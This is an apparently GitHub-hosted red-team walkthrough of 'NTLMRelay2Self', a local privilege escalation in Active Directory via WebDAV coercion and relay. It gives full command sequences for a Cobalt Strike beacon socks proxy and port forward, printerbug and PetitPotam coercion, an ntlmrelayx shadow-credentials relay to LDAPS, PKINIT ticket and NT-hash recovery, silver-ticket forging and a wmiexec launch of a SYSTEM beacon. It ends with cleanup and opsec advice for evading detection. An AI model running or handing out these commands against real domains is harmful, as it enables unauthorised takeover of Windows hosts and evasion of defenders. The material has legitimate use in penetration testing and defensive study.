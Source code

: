 # NTLMRelay2Self

## NTLMRelay2Self over HTTP (Webdav)
 
<b>An other No-Fix LPE</b>

Just a walkthrough of how to escalate privileges locally by forcing the system you landed initial access on to reflectively authenticate over HTTP to itself and forward the received connection to an HTTP listener (ntlmrelayx) configured to relay to DC servers over LDAP/LDAPs for either setting shadow credentials or configuring RBCD.

This would result in a valid kerberos TGT ticket that can be used to obtain a TGS for a service (HOST/CIFS) using `S4U2Self` by impersonating a user with local administrator access to the host (domain admin ..etc), or alternatively, it's also possible to retrieve the machine account's NTLM hash with getnthash.py and then create a silver ticket.

Lastly, use the TGS or silver ticket to spawn a system (session 0) process, this can be achieved by simply using `WMIExec` or alternatively using `SCMUACBypass` script to rely on kerberos for auth to interact with the SCM and create a service in the context of SYSTEM.

The steps below lists all the actions taken to escalate privileges locally on an up to date Windows 10 (1909) system, the cobalt strike beacon (or any other c2 agent) is running in the context of an unprivileged user `LAB\User1`. 


<b>Domain:</b> lab.local <br>
<b>DC IP:</b> 10.2.10.1 <br>
<b>Win10 IP:</b> 10.10.177.112 <br>
<b>Linux machine CS client running on:</b> 172.16.1.5 <br>

### <u>Steps:</u>

<b>TLDR:</b> On the linux machine, we run ntlmrelayx and listen for any NTLM connections over HTTP port 80, and then use the printerbug script to force the `Win10` system to authenticate using the machine account against itself on port 80, which hopefully should get picked up by our reverse port forward (beacon) on port 80 and redirected to the ntlmrelayx HTTP listener, and then ntlmrelayx will relay it through the socks proxy to the DC server over LDAP/LDAPs to set shadow credentials on the `Win10$` computer account.

1. Start the WebClient service from an unprivileged context: <br>
    `inline-execute StartWebClientSvc.x64.o`
    `sc_query webclient`

2. On your cobalt strike beacon, setup a socks proxy and reverse port forward: <br>
`socks 5009`<br>
`rportfwd_local 80 172.16.1.5 80`

3. Check if `msDS-KeyCredentialLink` attribute is Not already set on the current `WIN10` machine account. <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

4. Setup the Listener on Linux system CS client is running on: <br>
`proxychains python3 ntlmrelayx.py -domain lab.local -t ldaps://10.2.10.1 --shadow-credentials --shadow-target WIN10\$`

5. Coerce the `WIN10` system to authenticate to itself to port 80 (HTTP), this requires the <u>WebClient</u> service and the <u>Printer Spooler</u> service to be running on `WIN10`::<br>
`proxychains python3 printerbug.py "lab.local/User1:Passw0rd01@10.10.177.112" wind10@80/print` <br> Alternatively, you can use PetitPotam: <br>
`python3 PetitPotam.py -u User1 -p Passw0rd01 -d lab.local WIN10@80/print 10.10.177.112`

7. If the previous two (2) steps were executed with no error, you should get a message stating shadow credentials were successfully set on the WIN10$ machine account, you can quiclky check for that using: <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

<br><b>The remaining steps are standard PKINIT actions to get a TGT for WIN10$, then recover the NT Hash and lastly create a silver ticket for the `HOST\WIN10` SPN: </b><br><br>

8. Request a TGT for WIN10$:<br>
 `proxychains python3 gettgtpkinit.py -cert-pfx WIN10.pfx -pfx-pass 8kX4grjUrY8gvzjrphl5 lab.local/WIN10$ WIN10.ccache`

9. `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

10. Get the NT Hash:<br>
 `proxychains python3 getnthash.py -key 397eef25429f6b7249a11dfaa874df5c92bf44974b1bb962591937d656f0e827 -dc-ip 10.2.10.1 lab.local/WIN10$`

11. Create a silver ticket for the HOST SPN:<br>
 `impacket-ticketer -domain-sid S-1-5-21-81107902-1099128984-1836738286 -domain lab.local -spn HOST/WIN10.LAB.LOCAL -nthash db6484c89c273e269a23b1bdc53f7cdf -user-id 1155 Administrator`

12. Export the silver ticket for kerberos auth:<br>
 `export KRB5CCNAME=/PATH_TO/Administrator.ccache`

13. Get a SYSTEM beacon using `Wmiexec`:<br>
`proxychains4 python3 wmiexec.py -nooutput -silentcommand -dc-ip 10.2.10.1 -k -no-pass lab.local/Administrator@WIN10.LAB.LOCAL 'C:\Users\User1\Desktop\Files\mcbuilder.exe'` <br>
Or alternatively use `SCMUACBypass` script from James (@tiraniddo)


### <u>Cleanup:</u>

1. Export the TGT created in step 8:<br>
 `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

2. Get the public key set on `ms-dsKeyCredentialLink` GUID:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "list" -vv`

3. Remove the public key set:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "remove" -D 97dc9d92-6d23-6031-7e1d-b5a13e305c8b`

4. Check if the public key is removed:<br>
 `ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`


### <u>Notes:</u>

* Shadow Credentials requires LDAP signing and channel binding to be disabled, you can use `LDAPRelayScan` to confirm that.
* Machine accounts are allowed to change their own LDAP attributes (Not applicable for user accounts), however keep in mind that this will only work in case if the `ms-DSKeyCredentialLink` attribute does not exist for the machine account we want to LPE on.
* LDAP Signing and Channel Binding must be disabled on the DC (typical configuration for many DC deployments)
* When Testing in a HomeLab, make sure you've:
    * Windows Server 2016 Functional Level for AD
    * A digital certificate for Server Authentication on DC.
    * Disable Windows Firewall on the Win10 system, this would not be a road block when dealing with real world organizations.

### <u>Opsec !!:</u>

- Using Ticketer for forging a silver ticket from the NT hash can be detected (ATA) by monitoring for RC4 encrypted Kerberos ticket, most modern MS environments rely on AES Kerberos encryption instead. an alternative would be to use S4U2Self to obtain a TGS ticket check `gets4uticket` from Dirk-jan.

- SCMUACBypass creates a service, can be customized to update an existing service and point it to your beacon payload instead of `cmd.exe`, `Wmiexec` doesn't create any services, that does not mean that Wmiexec with `-nooutput` and `-silentcommand` have no detections. just an opsec-safe alternative with a minimal footprint, i could be wrong though, who knows. 

- Shadow Credentials changes the `ms-DsKeyCredentialLink` only, on the other hand RBCD requires the `MachineQuota` to be set to 10 for default domain users (not always the case), plus a computer object will need to be created or have control over an existing AD joined system with an SPN set (required for delegation), then reflect it in the `AllowedToActOnBehalfOfOtherIdentity` LDAP attribute.



### <u>Refs: </u>
* `LdapRelayScan` https://github.com/zyn3rgy/LdapRelayScan
* `SCMBypassUAC` https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
* `gets4uticket` https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py
* `impacket` https://github.com/SecureAuthCorp/impacket

### <u>Credits: </u>
Based on the research and tools/PoCs created by:
* @tifkin_
* @tiraniddo
* @_dirkjan
* @harmj0y
* @ShutdownRepo
* @topotam

